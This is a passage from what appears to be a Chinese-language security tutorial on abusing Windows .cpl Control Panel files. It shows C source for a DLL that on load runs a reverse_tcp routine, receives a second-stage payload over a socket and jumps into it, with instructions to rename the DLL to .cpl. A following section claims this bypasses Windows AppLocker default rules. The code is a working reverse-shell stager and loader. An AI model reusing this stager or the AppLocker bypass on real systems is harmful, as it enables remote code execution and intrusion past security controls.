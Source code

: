 ```
            ret = recv(sock,buffer,payloadLen,0);
            buffer += ret;
            payloadLen -= ret;
        } while (ret > 0 && payloadLen > 0);  


        __asm
        {
            mov edi,sock;   
            jmp orig_buffer; 
        } 

        VirtualFree(orig_buffer,0,MEM_RELEASE);   


}   

BOOL APIENTRY DllMain( HMODULE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved
                      )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        reverse_tcp();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```

生成dll文件，后缀名改为cpl  
正常运行，正常退出

0x05 Bypass Windows AppLocker
=====

之前介绍过《Bypass Windows AppLocker》  
开启默认规则后会拦截exe和脚本的执行，那么cpl文件呢？  
当然可以绕过 Windows AppLocker的限制规则

如图

![Alt text](http://drops.javaweb.org/uploads/images/9bc1fe87fcfefed8c7a12ba6f4a7efd6249f0c17.jpg)

0x06 rundll32
=====
